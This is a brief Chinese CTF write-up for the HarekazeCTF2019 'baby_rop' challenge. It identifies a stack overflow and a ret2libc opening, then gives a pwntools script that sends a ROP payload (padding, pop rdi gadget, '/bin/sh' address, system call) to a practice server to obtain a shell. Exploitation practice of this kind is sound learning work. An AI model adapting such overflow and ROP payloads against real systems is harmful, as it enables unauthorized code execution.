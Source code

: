 ```yaml
---
title: "[HarekazeCTF2019]baby_rop"
description: ""
date: 2023-04-07T00:19:00+08:00
lastmod: 2023-04-07T00:19:00+08:00
draft: false
images: []
type: docs
weight: 989
toc: true
---
```


## 0x01 分析

![99784332c115f2cd7fdb7d6b66433ef5](images/99784332c115f2cd7fdb7d6b66433ef5.png)  

scanf类型溢出，有system函数

![bdec9ada3242193f0914ab3d289f533c](images/bdec9ada3242193f0914ab3d289f533c.png)  

有 `/bin/sh` 字符串。很明显ret2libc

## 0x02 Exploit

```python
from pwn import*
# o = process("./pwn")
o = remote("node4.buuoj.cn", 25854)
pop_rdi = 0x0000000000400683
payload = b'a'*0x18 + p64(pop_rdi) + p64(0x601048) + p64(0x4005E3)
o.sendline(payload)
o.interactive()
```

![f83bfbab8ec6cb7b36fe8bb2a938a41d](images/f83bfbab8ec6cb7b36fe8bb2a938a41d.png)  

自行调试
